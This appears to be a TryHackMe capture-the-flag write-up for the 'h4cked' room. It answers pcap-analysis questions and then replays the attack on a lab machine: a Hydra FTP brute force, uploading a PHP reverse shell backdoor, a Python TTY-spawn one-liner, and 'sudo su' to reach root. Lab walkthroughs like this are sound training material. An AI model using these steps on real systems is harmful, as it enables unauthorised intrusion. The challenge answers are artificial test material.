 # h4cked
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

# Task 1: Analyze .pcap file

Find out what happened by analysing a .pcap file and hack your way back into the machine

## The attacker is trying to log into a specific service. What service is this?

FTP

## There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool? 

Hydra

## The attacker is trying to log on with a specific username. What is the username?

jenny

## What is the user's password?

For a better sequencing of the transmission, give a look to the TCP stream. The password is: password123

## What is the current FTP working directory after the attacker logged in?
```
PWD
257 "/var/www/html" is the current directory
```
/var/www/html

## The attacker uploaded a backdoor. What is the backdoor's filename?

```
PORT 192,168,0,147,225,49
200 PORT command successful. Consider using PASV.
LIST -la
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,0,147,196,163
200 PORT command successful. Consider using PASV.
STOR shell.php
150 Ok to send data.
226 Transfer complete.
SITE CHMOD 777 shell.php
200 SITE CHMOD command ok.
```
shell.php

## The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?

Always on the TCP stream, the Stream 18 contains the code of shell.php, and it can be downloaded by the following URL:

http://pentestmonkey.net/tools/php-reverse-shell

## Which command did the attacker manually execute after getting a reverse shell?

whoami

## What is the computer's hostname?

wir3

## Which command did the attacker execute to spawn a new TTY shell?

python3 -c 'import pty; pty.spawn("/bin/bash")'

## Which command was executed to gain a root shell?

sudo su

## The attacker downloaded something from GitHub. What is the name of the GitHub project?

Reptile

## The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?

rootkit

# Task 2: Compromise the machine

The attacker has changed the user's password! Can you replicate the attacker's steps and read the flag.txt? The flag is located in the /root/Reptile directory. Remember, you can always look back at the .pcap file if necessary. Good luck!

Tags
--
* Hydra
* FTP
* Reverse Shell
* Reptile
* Sudoers

Tools used
--
* ftp
* sudo -l
* sudo su

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.43.234
* Other information must be gathered during the attack

## Phase 1: Foothold
```
[DATA] attacking ftp://10.10.43.234:21/
[21][ftp] host: 10.10.43.234   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
```
Run:
```
ftp 10.10.43.234 -n
Connected to 10.10.43.234.
220 Hello FTP World!
ftp> user
(username) jenny
331 Please specify the password.
Password: 987654321
230 Login successful.

get shell.php
```
Change IP address and port with yours and by FTP upload the edited shell.php:
```
ftp> pwd
257 "/var/www/html" is the current directory
ftp> put shell.php
```
Now we can enable netcat and call the shell by visiting `10.10.43.234/shell.php` by the browser.

Now we are inside the target server as `www-data`, we can switch to jenny user by `su jenny` and type `987654321` as password. Then, run:
```
sudo -l

Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
```
## Phase 2: Privilege Escalation

We can become easily root:
```
sudo su
```
Then, go to read the root flag:
```
cat /root/Reptile/flag.txt
```